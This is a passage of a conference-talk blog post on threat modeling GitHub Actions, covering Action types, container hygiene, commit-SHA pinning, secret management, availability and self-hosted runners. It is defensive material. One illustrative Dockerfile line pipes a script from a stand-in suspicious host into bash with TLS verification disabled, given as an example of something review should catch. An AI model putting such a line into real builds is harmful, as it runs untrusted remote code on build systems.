




GitHub Actions is phenomenally popular in both open-source and enterprise development - partly due to how _different_ it is from many other existing CI/CD tools.  However, this means you'll need to update your threat model to account for those differences.

This talk gives a quick overview of what threat modeling is and why it's important before diving into what an Action _really_ is under the covers, how to handle secrets within it, and some key decisions that'll change your model based on real-world experience.

> This post is images, expanded commentary, and resources from a talk I gave at [BSides Boulder 2023](https://bsidesboulder.org/2023/talks/) on June 23rd, 2023 on Threat Modeling GitHub Actions ([slides](https://github.com/some-natalie/some-natalie/raw/main/assets/slides/2023-06-23_Bsides-Boulder-Threat-Modeling-Actions.pdf) as presented).  Since there's no screen-sharing on a website, I can't bounce back and forth between code and a browser and this talk like I could in real life.  There's lots more code snippets, links, and screenshots here than in the original deck to make up for that. 💖
{: .prompt-info}

## 🗺️ Where we're going

1. [Why?](#but-why-though) - threat modeling is effort, so why bother in the first place?
1. [What's a GitHub Action](#whats-an-action) - dig deep into what a GitHub Action is
1. [Secrets are hard](#managing-secrets) - public service announcement about managing credentials safely in CI
1. [To self-host or not](#rolling-your-own-changes-a-lot) - how this model changes when you're running this yourself
1. [Governing the ungovernable](#governing-the-ungovernable) - expanding this model to the enterprise, with tons of people and processes and stakeholders, without quitting your job to become a goat farmer[^1] 🐐

## Introduction


Hi, I’m Natalie.  I'm a [squash merge](https://docs.github.com/en/pull-requests/collaborating-with-pull-requests/incorporating-changes-from-a-pull-request/about-pull-request-merges#squash-and-merge-your-commits) evangelist at GitHub and before that, I _Did the Thing_ at a Big Defense Company.  I work empowering folks to make better, faster, safer software while enjoying their jobs _within_ the alphabet soup that is compliance frameworks - [NIST](https://www.nist.gov/) ([800-53](https://csrc.nist.gov/publications/detail/sp/800-53/rev-5/final) and [800-171](https://csrc.nist.gov/publications/detail/sp/800-171/rev-2/final) mostly), [CMMC](https://dodcio.defense.gov/CMMC/) and (kinda) predecessor [DFARS](https://www.acq.osd.mil/dpap/dars/dfars/html/current/252204.htm), and more.  In both roles, I've had to talk about, assemble, reassess, get feedback on, and otherwise have to work with threat modeling of various developer tooling.

## But why though?


Understanding a system is _the_ foundation of securing it.  Consciously thinking through your systems - all of them - for security and stability as part of software delivery.  It’s one more dimension of craftsmanship.

As our systems have scaled, configuration is code, infrastructure is code, management is code ... yeah, sure, software may be eating the world[^2], but this means we _also_ need to adapt our understanding of how software can be compromised when it's consumed all the things that

- Build it
- Scan it
- Deploy it
- Create and scale the infrastructure for it
- and more, I'm sure ... maybe AI will fix it 🤖

It's also gotten [OWASP's](https://owasp.org) attention with a brand new [Top 10 for CI/CD](https://owasp.org/www-project-top-10-ci-cd-security-risks/).  (We'll hit on most of these today too.)

> No throwing stones in this glass house ...  I've taken down a couple thousand users in production with the wrong line endings in a configuration file.  It had some Windows line endings (`\r\n`) instead of Unix line endings (`\n`).  I didn't see that, the tests all passed so it was merged, then [SaltStack](https://docs.saltproject.io/en/latest/contents.html) did exactly what I told it to do - applied it and restarted services that never came back up.  This could have been prevented by having automated checks, or someone more experienced reviewing my config files, or creating a better deployment model, or ... lots of things.  It's easy to call this a mistake, but a malicious actor could have done this too.  Systems fail in many ways.
{: .prompt-info}

I've got two things we're going to keep coming back to throughout this talk.

### Four questions


First, the [four key questions](https://www.threatmodelingmanifesto.org/) of threat modeling.

Well, the first three anyways.  [Meat Loaf](https://en.wikipedia.org/wiki/Meat_Loaf), great sage of love and power ballads, sang that ["I’d do anything for love, but I won’t do that"](https://www.youtube.com/watch?v%253D9X_ViIPA-Gc) - and never answered what **"that"** was.  Same deal here - I can’t answer if we did a good enough job, only you can.  What's "good enough" for a company creating widgets is substantially different than holding state secrets or working with life-sustaining tech. 😀

You’re not walking out of here with a comprehensive, end-to-end threat model for your most special pipeline, but hopefully you’ll build a starting point for it.  I’ll focus on highlighting things I see folks overlook, my own struggles doing this in a highly regulated environment, and some of the easier wins in this simplistic pipeline.

### A simple pipeline

The next thing we'll keep coming back to is this simplified pipeline of code moving from a developer to production.  It'll ground us as we move from left to right.



### Some assumptions

{: .w-50 .right}

We’re making some assumptions here for the sake of time.  Please **DO** include these topics in your own threat model - they are important!  But they’re also bespoke and we’re on a timeline here.

1. You know what git and GitHub is and some of the basics, like managing pull requests, branching/forking, how to set permissions and checks for merging, etc.  If not, ~~see me later.~~ bump down to the [resources](#resources) heading to get going.
2. Endpoint management is its own can of worms, but seriously, do patch your stuff.
3. Identity and access management is its own thing too.  It's way in depth beyond what I’m gonna talk about.  I’m assuming you’ve got confidentiality, identity, and access controls covered.
4. How your end environment is set up (eg, don't `chmod 777` all the things, don't use long-lived creds, etc.)


### Some biases


I have a lot of biases actually … but let’s do some relevant ones:

First, I work at GitHub in a technical sales role, working with the super duper regulated crowd that I came from.

Next, in my time Doing The Thing, almost all of the dangerous and/or dumb things I saw were because of **user friction**.  Some corollary observations to that:

- Nothing is quite as dangerous as a clever engineer working around said friction.
- Never have I ever disabled TLS verification to work around a proxy, nor have I run SSH over TCP/443 or (ab)used web blob storage to import software not on the blessed list of approved software. 😇
- Mishandling secrets and shadow IT assets are tied for biggest actionable threat. Both of these are driven by users working around policies.

Lastly, when I started in IT, most companies ran their own email.  Today, most companies buy Office 365 or Google Suite instead.  The world doesn’t have many folks who can set up and run [SpamAssassin](https://spamassassin.apache.org/) and [fail2ban](https://www.fail2ban.org/wiki/index.php/Main_Page) and [postfix](https://www.postfix.org/) anymore.  I believe that building and managing your own CI from scratch will go this way too.

## What's an Action?


My first experience with CI/CD wasn't "continuous" by any interpretation.  It was a nightly build in a system called Hudson.  This was _years_ after [the Joel test](https://www.joelonsoftware.com/2000/08/09/the-joel-test-12-steps-to-better-code/) helped codify the idea of building your code regularly to create a faster feedback loop between changes.  This system later became Jenkins, something still widely used today.  I could click buttons and have a reproducible-ish build to test somewhat quickly.  It was outlandishly great before it became routine.

The next big innovation in this toolset put that pipeline as code in your repository.  It could now undergo code review, get version-controlled, and some of those tools let you do other neat things like create parallel steps or templates to get results faster.  It was still a problem for security and efficiency - having the same task (check out a repo) written by each team doing it is still wasteful of time and now there’s a hundred more bits of scripts to keep updated.

There’s got to be a better way ... 🤔


Let’s take the amazing time and effort savings of a package ecosystem and make CI awesome!!  It worked for NPM and PyPI and Ruby Gems and `<lots more>`.  A package ecosystem lets you reuse bits of your pipeline as open source building blocks - consolidating time, concentrating community focus (especially on security), and maximizing reuse.  It also provides a way for vendors to structure user interaction with their products.  You can use them to create "paved paths" or templates for internal usage too.

It also means we need to think about our CI pipeline differently.  As an example, let's check out a git repository.

In the first generation of tooling, I'd have to find and get my admin to install a plugin to interact with git.  This would need long-lived credentials to clone that codebase.  It may also need git installed on the compute that runs the job.  This would all be handled in a GUI, probably requiring an admin's help to get everything hooked together.  This centralization allowed for many threats to be funneled into a process, though.  Threats to this system mostly come from a central server or agents being out of date, long-lived credentials, and malicious or insecure integrations - all largely contained (and perpetuated) by needing admins to be involved.  It's a well-known and understood system.

Once my pipeline became code, I'd write a script that would run `git clone`, maybe with some flags to alter how much it'd clone or if it'll bring down LFS objects, etc.  Maybe it'd do some git configuration up front.  I'd need to figure out some credential storage, either persistent or with a secret manager.  Each team would have different opinions on how this script will work, so there's probably at least a handful of them floating around needing to be updated.  This system excels at speeding up development by ceding some control from the centralized admins above, but it still needs careful tending to remain up to date.  Threats to this system tend to fall into [the tragedy of the commons](https://en.wikipedia.org/wiki/Tragedy_of_the_commons), where individual scripts or templates or teams may be fantastic and others are not - without sharing the burden of maintenance, pieces just doesn't ever get updated or fixed or improved.

Within GitHub Actions, you checkout a repository with [actions/checkout](https://github.com/actions/checkout) and give it settings in YAML.  This reusable, modular bit of code does one thing - it interacts with git.  This example is [verified](https://docs.github.com/en/apps/publishing-apps-to-github-marketplace/github-marketplace-overview/about-marketplace-badges) to be owned and developed by GitHub, but anyone can publish one - I’ve done 4 or 5 now.  It's all completely open-sourced, so anyone and everyone can see what it does.  Fewer developers are writing bespoke shell wrappers around git and more scrutiny is on a shared package.  Being a package ecosystem also means security findings can be shared publicly in the [advisory database](https://github.com/advisories?query%253Dtype%253Areviewed%252Becosystem%253Aactions).  **You're in control of whether or not to trust it.**

For the most part, Actions run and operate in the part of the pipeline highlighted below.  This is where we'll stay for the rest of the talk.



🤨 ... so what's the catch?


> Now we have to treat these reusable pipeline building blocks as code we're bringing in, using the same techniques for other package ecosystems instead of evaluating an off-the-shelf product. 💡
{: .prompt-tip}

Under the hood (and ideally invisible to end users), a GitHub Action is one of three things.

1. some JavaScript
1. a Container
1. in-line or in-repo or remote scripts, other Actions, or an assortment of other possibilities

All three are great and usually at least two are good options for whatever it is you’re trying to do.  All have their use cases and tons of space for user preference.  The file that defines the inputs, outputs, and what's doing the thing is `action.yml`.

### JavaScript


When we're talking threat models specific to JavaScript (or other high-level interpreted languages), we tend to focus on the dependency ecosystem and injecting naughty inputs to do unintended things.  There's not _too_ much room for shenanigans here by design.  These can only use Node 16, as support for using Node 12 is [ending soon](https://github.blog/changelog/2023-06-13-github-actions-all-actions-will-run-on-node16-instead-of-node12-by-default/).  It must be pure JavaScript or TypeScript only - no calling additional binaries.

A Node.js runtime is bundled with the agent, so it's extremely portable across platforms (and compute if you bring your own).  Let's look more at what's happening here so we know where it can go wrong.

On receiving a JavaScript Action to run:

1. The runner downloads each Action it'll need to execute the entire pipeline.  For JavaScript, that means it's downloading the repository hosting that Action at the branch/tag/sha specified in the YAML file.  This is line 31 of the screenshot below.
1. Runs that Action with a bundled version of Node.js using the inputs and outputs specified, as well as any [environment variables](https://docs.github.com/en/actions/learn-github-actions/variables) made available to it.  This is shown on the bottom half of the screenshot below.


> Screenshot is from the [some-natalie/fedora-acs-override](https://github.com/some-natalie/fedora-acs-override) repository.  The recent [Actions workflows](https://github.com/some-natalie/fedora-acs-override/actions/workflows/build-acs-kernel.yml) may be more interesting.  Here's the [workflow file](https://github.com/some-natalie/fedora-acs-override/blob/main/.github/workflows/build-acs-kernel.yml) for this job.


Turns out the deep pit of despair that I find myself in when I talk about JavaScript dependencies is pretty shallow.  All dependencies of an Action have to be vendored ([docs](https://docs.github.com/en/actions/creating-actions/creating-a-javascript-action#commit-tag-and-push-your-action-to-github))[^3].  This means you must include any package dependencies required to run the JavaScript code.  While many projects will explicitly not include things like the `node_modules` directory, allowing for variation between deployments but saving tons of overhead on git storage, there's a lot of advantages to this path for this use case.

Requiring dependencies to be vendored

- Makes JavaScript Actions portable across hosted and self-hosted compute
- Means you can’t hide dependencies or _require_ anything of a self-hosted environment
- Software composition analysis tools (eg, [dependabot](https://docs.github.com/en/code-security/dependabot/dependabot-security-updates/about-dependabot-security-updates)) can see all the things
- Static analysis tools can also see all the things 🕵️‍♀️

Many security tools, including GitHub's, are free for public projects on GitHub.  Since all marketplace-listed Actions have to be public ([docs](https://docs.github.com/en/actions/creating-actions/publishing-actions-in-github-marketplace)), there's lots of easy choices to look at and secure anything you're using.

### Docker containers


No discussion of "reusable bits of code" is complete without talking about containers.  The entire promise of containers is that we'd write once, in any language under the sun, and then run it anywhere with perfect reproducibility.  No complaints here ...

... lots of assumptions though.  First, GitHub's hosted compute uses _specifically_ Docker.  That's the assumption for all Actions, even those running on self-hosted compute.  This doesn't mean it's completely impossible to use a different container runtime (and alias it to `docker` commands), just that it isn't guaranteed to work for all container-based Actions.

Next is that container Actions take two forms, both with very similar threat models.

1. It can build and run a container based on a `Dockerfile` on each run.
1. It can pull and run a container.[^4]

Here's an example of a "build and run" Action from the marketplace - [advanced-security/ghas-to-csv](https://github.com/advanced-security/ghas-to-csv) is written in Python and scrapes an API with some inputs to output a CSV file.  It does the same setup to download the Action, but it's been told to build a container from the [`Dockerfile`](https://github.com/advanced-security/ghas-to-csv/blob/main/Dockerfile) by the [`action.yml`](https://github.com/advanced-security/ghas-to-csv/blob/main/action.yml#L7-L9) file, so it passes that context into `docker build`.  Once built, it'll run as directed in the pipeline and pass in any inputs as well as many of the environment variables from the underlying host.


Here's a similar example of a "pull and run" Action from the marketplace - [actions/jekyll-build-pages](https://github.com/actions/jekyll-build-pages).  This site is built using Actions to build and deploy it to Pages using Jekyll as a static site generator.  At setup, it still downloads all the Actions to interpret what's needing to be done.  This time though, the [`action.yml`](https://github.com/actions/jekyll-build-pages/blob/v1.0.7/action.yml#L29-L31) file says to run using an existing container in the Packages registry ([docs](https://docs.github.com/en/packages/working-with-a-github-packages-registry/working-with-the-container-registry)).


Nothing in the `docker run` statement for either container Action can be modified by users.  It will not run a privileged container, but it will mount the docker socket from the host - allowing for easy communication between containers.

> This is a key distinction in safety of containers when using GitHub Actions as a SaaS versus bringing your own compute.  There's a lot of ways to build your own CI system for Actions, as I've outlined before in an [architecture guide for self-hosted runners](https://some-natalie.dev/blog/arch-guide-to-selfhosted-actions/).  Your choices there determine how safe this is.  As a SaaS, your Actions are running on ephemeral virtual machines, eliminating the risk of one container job contaminating another or escaping to infect the host persistently.  That is not inherently true for self-hosted compute.
{: .prompt-warning}

#### Image provenance and container hygiene

For either use case, the best place to start is getting eyes on the container file that builds/built it.  What's it doing?  Where's it pulling from?  Tools like [hadolint](https://github.com/hadolint/hadolint) will catch a lot of this in an automated way, but there's no substitute for code review.

```Dockerfile
FROM sketchy.url/dodgy/user:latest
RUN curl -k https://not-suspicious.weird-tld/uploader.sh | bash
USER root
```

> For Actions in the marketplace that are pulling a prebuilt container, the container must also be public.
{: .prompt-info}


I think everyone here has a favorite vulnerability to exploit - from cross-site scripting, SQL injections, to simply fuzzing until something fun happens.  Mine is container escapes.  To understand why this is so weird related to GitHub Actions, let’s talk a tiny bit about what a container is.  It's a linux process with some special guard rails that are built into the kernel controlling what it's allowed to see and do.[^5]  Orchestrators (such as [Kubernetes](https://kubernetes.io/)) manage this workload across a cluster of multiple machines.

> 🧁 Sprinkling containers on your CI doesn’t make it magically safer or more efficient (but it does build a nice résumé).  If you're not careful, it introduces lots of fun new risks that I've spoken about elsewhere.[^6]
{: .prompt-tip}

Apart from the basics of container hygiene, the runner agent does a lot to improve general safety.  It won't run containers as privileged or allow for arbitrary mounts.  The volume mounts, environment variables passed in, etc., can't be edited by a user.  More risk reduction in this system is also pinned on ephemerality (a brand-new, version-controlled host image on each run) preventing persistence of an escape and strictly limiting the access of what can be seen/done.  This is the case if you're using the GitHub-hosted runners, but not necessarily so if you're bringing your own runners.  

If this is you, please spend lots of effort comprehensively delineating how you're going to handle container workloads in your threat model, especially if you'll be sharing compute across projects.  This is a really tough problem to model and even harder to address. 🥺

### Composite


A [Composite Action](https://docs.github.com/en/actions/creating-actions/creating-a-composite-action) can be lots of things.  It's what you think about when you think about any other CI tool, really.  It's the magic shapeshifter of the bunch and can do a huge variety of tasks such as

- Run a script in-line, stored in the repository, or already on the machine
- Run a program that's already on the host machine
- Call other GitHub Actions
- Start up Skynet (maybe?)

Here's an example I wrote that calls other Actions and runs an in-line bash script called [gitlog-to-csv](https://github.com/some-natalie/gitlog-to-csv).  It "reformats" the history of changes in [`git log`](https://git-scm.com/docs/git-log) as a CSV file to provide "chain of custody" style reports for compliance oriented folks.


As it's working, it's doing the same tasks as we've outlined before.  It's downloading all the Actions needed to run the entire pipeline recursively.  Even if my workflow doesn't call `actions/checkout`, it's downloaded and executed because this composite Action needs it.  When we get to the in-line script, the entirety is printed to the console log.  If it calls anything else, it'd also be printed out.  The pretty verbose logging should prevent hiding stuff and make troubleshooting easier.

When evaluating these, make sure to also look at the dependencies it's calling.  The good news is for in-line scripts and the like, you'd leverage the existing processes for code review in your existing CI systems.  A shell script is still a shell script - GitHub Actions doesn't change that.

## Evaluating an Action with Risk


Every system that takes input, processes it in some way, then provides output needs to consider what unexpected inputs will do.  There's an absolutely fantastic walkthrough of executing code through the title of a pull request in [GitHub's documentation](https://docs.github.com/en/actions/security-guides/security-hardening-for-github-actions#understanding-the-risk-of-script-injections).  Go try it out step-by-step, then walk through using intermediate variables and sanitization to mitigate it (we walked through it via screen-share in the in-person talk) - I'll wait. ♥️

## Availability


The next threat I'd like to talk about is availability - this is more about self-hosted runners that scale themselves backed by hardware more than it is about SaaS runners that scale magically[^7].  In either case, maintaining availability is an important part of a threat model.  GitHub Actions is different from most other CI tools in two relevant ways:

1. How _easy_ it is to create concurrent jobs to save time
2. How many things that can trigger a job that _aren't_ pushing code

A single workflow can matrix up to 256 individual tasks with a few lines of YAML.  This is great at saving developer time, leveraging a longer-running task into shorter-running parallel tracks - **if** you're able to scale the compute up and down automatically.  Otherwise, this becomes annoying when one team is tying up all the resources.

Jobs can trigger on lots of additional events, including opening or closing issues, messing with policies such as branch protections, deployment events, discussions, releases, and [lots more](https://docs.github.com/en/actions/using-workflows/events-that-trigger-workflows).

Some strategies to mitigate this are to use autoscaling runners backed by cloud compute where you can (GitHub-hosted or self-hosted).  Mindfully use the finite compute where you need to, then autoscaling compute where you can if that’s possible.  Where you have finite capacity, review your code pipeline changes with this in mind as well.  Specifically, watch out for what's triggering the build and if you can refine that further - eg, don't build the codebase when you change a file in the `~/docs` folder, only run the full test suite on PRs targeting a release branch, etc.

There are a few additional availability concerns for self-hosted runners to bring up here as well.

- Jobs that don't get immediately assigned a runner sit in a queue for up to a couple days.  Hopefully you'll be well aware of this becoming a concern for your team well before jobs expire.
- Watch out for caching and ingress/egress costs, doubly so if you're running ephemeral compute on-premises.
- Thoroughly understand every upstream dependency in your company and when they'll rate-limit you.

> 📚 In my first attempt at setting up [actions-runner-controller](https://github.com/actions/actions-runner-controller), I rate-limited thousands of developers from Docker Hub for most of a business day.  Each build had to pull an image and at least a couple builds went directly to Docker Hub instead of the internal image registry, so instead of a handful of pulls a day it ballooned to thousands an hour.  I don't recommend scream-testing against services that'll rate-limit you, but I did learn my lesson. 🎓
{: .prompt-info}


Once we really think through our CI pipeline as a package ecosystem, most mitigation strategies follow the same as other ecosystems you likely already have processes for.

- Favor pre-written, highly-visible Actions in the marketplace
- Having lots of users is a decent signal to eyes on it
- Officially from or sponsored by a company you already trust

We've touched on code review a lot.  It's very worthwhile to protect your `~/.github/workflows` folder with a [CODEOWNERS file](https://docs.github.com/en/repositories/managing-your-repositorys-settings-and-features/customizing-your-repository/about-code-owners) and [protected branches](https://docs.github.com/en/repositories/configuring-branches-and-merges-in-your-repository/managing-protected-branches/about-protected-branches) for important projects.  This means that changes to your pipeline _must_ be reviewed by the responsible team, and maybe additional other stakeholders you define.  When your pipeline is code, reviewing it is ever more important.

Remember that tags in git are mutable, so you can move tags independently of code changes.  If you don't trust them, pin to a commit SHA instead.  Here's an example:

```yaml
# do you trust some-dude?
uses: some-dude/cool-action@v1  # git tag

# are you some-dude developing this? that's the only okay answer.
uses: some-dude/cool-action@main  # latest commit in a branch

# good job!
uses: some-dude/cool-action@82349d25f8d04563be1197bcd1d6c89f685ae8f0  # specific commit SHA
```


Everything in the marketplace is a public repository.  There's not much of _hiding_ anything.

There's also tons of free and/or open-source security tooling available to the developers and maintainers of public repositories in GitHub - basically everything you could ever pay us for is free for public repos.  Tons of other vendors feel the same way.  We're all building on the shared foundation and we all want to make it the best we can.

For the folks that feel the need to bring external dependencies in, that's a completely supported workflow too.  Fork it (or clone/push), do whatever scanning and code analysis you need for the type of Action it is, and bring it in.  We'll talk more about this governance in a little bit. 🏡


## Managing secrets


### Wait, where is this a problem?



This is a problem everywhere!

On endpoints, secrets like private keys, tokens, passwords, etc., get saved as text files.  I'm guilty too - I had a text file (helpfully named `tokens.txt`) of credentials for short-lived demo environments.  Saving them to the password manager would just clutter up life for me.  However, were these long-lived or if I had to do something to rotate them, this could be a problem.  Addressing this user behavior is out of scope for today, but offering a password manager curbed my own doing this.

Secrets get into source code repositories all the time and I really wish that wasn’t a thing I had to say in 2023.  This is _always_ a problem for reasons covered extensively elsewhere[^8].  Broadly speaking, you have two strategies for mitigating this threat, pre-receive and pre-commit hooks, each with their own limitations.

Pre-receive hooks work by running on the server, checking the incoming data before accepting it.  These may get limiting on self-hosted infrastructure with tight constraints and lots of regex matching, as you usually need a bit more hardware to run this in a timely fashion.  In exchange, it’s much easier to enable these at scale.

- For GitHub, use the built-in [secret scanning](https://docs.github.com/en/code-security/secret-scanning/about-secret-scanning) with [push protection](https://docs.github.com/en/enterprise-cloud@latest/code-security/secret-scanning/protecting-pushes-with-secret-scanning).  It runs on the server side, so you don't need to do anything more than turn it on.  It’ll also get non-repo sources, like issue bodies and the like, and surface naughty things in history too.  For public repositories on GitHub.com, this is free.
- For non-GitHub platforms, consider using [OWASP SEDATED](https://github.com/OWASP/SEDATED) if you can configure pre-receive hooks.  It may require a bit of regular expressions to set up the first time, but it's undramatic once you get it going.  Like everything else you implement yourself, don't forget to update the regex to add new patterns! 🎯

Pre-commit hooks run on the endpoints, making it impossible to even create a commit if the script fails.  These only work if they run on every machine, in every environment for every commit.  Of these, consider [git-secrets](https://github.com/awslabs/git-secrets) from AWS Labs.  It's one of the easier hooks to install and configure.

Secrets get stored in all manner of fun places on our build and deployment infrastructure too.  Good places to look include:

- Normal user directories for that sort of thing like `~/.ssh`
- Passwords to private registries or proxies in ecosystem or system config files (eg, `pip.conf`)
- Deploy scripts
- I’m pretty sure everything that uses [`expect`](https://linux.die.net/man/1/expect) has something that shouldn’t be in plain text in plain text.
- Once we’re in production, I’ve found browse-able paths to JDBC URLs that have usernames and passwords, `.ini` files with private keys, etc.  Lots of this kind of thing should be caught by automated scanners these days.

I think everyone here has a story about this. 😊


If you do nothing else beyond cleaning and rotating all the random credentials and secrets in your repositories, I think this talk is a huge success.  Fixing this reduces your potential for compromise all throughout this pipeline.[^9]


Okay, so you’re gonna fix that mess … where do you put the shiny, new, uncompromised secrets?  You’ve got a few great options.

GitHub has a [built-in secret store](https://docs.github.com/en/actions/security-guides/encrypted-secrets), creatively called “Secrets”.  It’s built on [libsodium sealed boxes](https://libsodium.gitbook.io/doc/public-key_cryptography/sealed_boxes) for a write-once, read-never-again experience that tracks to repository permissions.  If you need to read it again, it’s not a secret and it’s stored unencrypted as a variable instead.  The templating language to use either is very similar.

One proviso - Secrets thinks literally everything you put in it is a string.  It does some magic to redact the value from being printed to logs and such.  That magic can sometimes get countered by random binary bits or structured data formats.  The easy way to address that is use `base64` to encode your binary certificates, YAML k8s credentials, etc., as a string, then decode them for use.

> Friendly reminder that base64 encoding isn’t encryption.[^10]
{: .prompt-danger}

You can also just as easily plug in your existing secret store.  Here’s some easy integrations to get going:

- Hashicorp Vault - [hashicorp/vault-action](https://github.com/hashicorp/vault-action)
- AWS - [aws-actions/aws-secretsmanager-get-secrets](https://github.com/aws-actions/aws-secretsmanager-get-secrets)
- Azure - [Azure/cli](https://github.com/azure/cli)
- Google Cloud - [google-github-actions/get-secretmanager-secrets](https://github.com/google-github-actions/get-secretmanager-secrets)


Of course, you may not even need to get that complicated.  Actions also generates a unique JIT authentication token on each run that’s only valid for the duration of that run.  The scope it has is defined in the workflow file, so it too can be reviewed and approved via pull request.  More on that [here](https://docs.github.com/en/actions/security-guides/automatic-token-authentication).


Here’s a really questionable maneuver.  This workflow is

1. Echoing a secret called `DEPLOY_ACCOUNT` for the `test` environment into the shell
2. Piping it into `base64 -d` to decode it (since it’s a YAML file)
3. Writing that file to disk at `/tmp/config`
4. (doing something with it)
5. Deleting the secret from disk at the end

Is this safe?

It’s okay to disagree!  I’ve talked through this example with a lot of different audiences and there’s always strong and justified opinions here for both “yes” and “no”.

My answer is _it depends_.  I wouldn’t recommend doing this, but here’s the rest of the story for this workflow - since it only runs on GitHub’s hosted runners, I can prove some mitigating controls here that would be harder to do running it myself.

- It runs on an ephemeral virtual machine, so the machine vanishes into the great abyss on completion.
- There’s no ability to login to these machines, so all interaction with it must go through the _code_ in a GitHub Action.  No one can just shell in and cat it out during runtime.
- The combination of `echo VALUE | decode VALUE > write to disk` keeps interaction with the value scoped to having to read that file.  Echoing into an environment variable allows more processes to read it.

There’s a few better ways to pass secrets or other information between steps.


First, use the official Action for the vendor of the thing it is you’re doing.  In this case, I’m logging into a Kubernetes cluster using a service account in that cluster.  This cluster is hosted in Azure, so … using the [Azure/login](https://github.com/azure/login) and [Azure/k8s-deploy](https://github.com/Azure/k8s-deploy) Actions should get me where I need to be without doing silly things with shell commands.  This is the case for most cloud providers.

If you’re deploying into a cloud environment, please consider setting up [OIDC](https://openid.net/developers/how-connect-works/).  It’s literally rainbows and sparkles and candy for authentication.  You get a scoped, short-lived, JIT authentication token on demand.  There’s a little setup up front with your provider and GitHub, documented [here](https://docs.github.com/en/actions/deployment/security-hardening-your-deployments/about-security-hardening-with-openid-connect).  In exchange, you never have to deal with long-lived credentials again.  It’s a fantastic tradeoff any way you look at it.[^11]


## Rolling your own changes a lot


So far, we’ve talked about the code in our pipeline and how we’re authenticating to various bits in that pipeline securely.  There’s a **gigantic** difference in threat models based on where the job is run.  We’ve touched on this a few times, but let’s dive into material differences.

GitHub Actions has 2 broad places that a job can be run - on the SaaS runners managed by GitHub or on compute you bring by installing a [runner agent](https://github.com/actions/runner) on it.  It’s not an “either-or” decision for most users - many folks use both within a company or project.

The hosted compute comes in a couple different versions of the major operating systems, on a couple different sizes of VMs, and has an option for a static and dedicated IP address.

The compute you bring can be a _much_ broader range of things - each with implications to how you’re modeling threats to your CI.


(for the record, it’s not magic - running secure, highly available, and fast scaling infrastructure at a global scale is really really hard)

Check for risky practices at a high level - secret management, understanding and trusting the Actions you use, network ingress/egress if you have a private network to talk to, etc.  This likely is nothing out of the ordinary for the cloud-native or cloud-curious folks.


This is where I spend most of my time and all of these decisions change the scope of your threat model.  The big benefits to BYO compute is the control and flexibility you gain - and it comes with the equal and opposite downside that these deployments tend to get complicated quickly.

I wrote an [architecture guide to self-hosted runners](https://some-natalie.dev/blog/arch-guide-to-selfhosted-actions/) that walks through these decisions in more depth.  In short, though

- Choose a platform your team is an expert in running securely - don’t make this your first foray into bare-metal or Kubernetes if you don’t have to.
- Ephemerality and isolation make co-tenanting, even within the same company, much safer.
- Pay attention to scaling.  Scaling to or near 0 saves cost.  CI tends to be a “peaky” load, so scaling up quickly also saves developer time - much more expensive than commodity compute pricing.


Ephemerality is difficult to design for, to run in production, and to guarantee in an audit.  This is the _specific_ part of your threat model that expands or contracts based on it though.

I tend to see self-hosted compute in a persistent deployment in a trusted boundary, with fewer restrictions between hosts.  Even if the compute resets itself, there’s a path to compromise from within and outside of Actions when the deployment target is inside a trusted zone.


## Governing the ungovernable


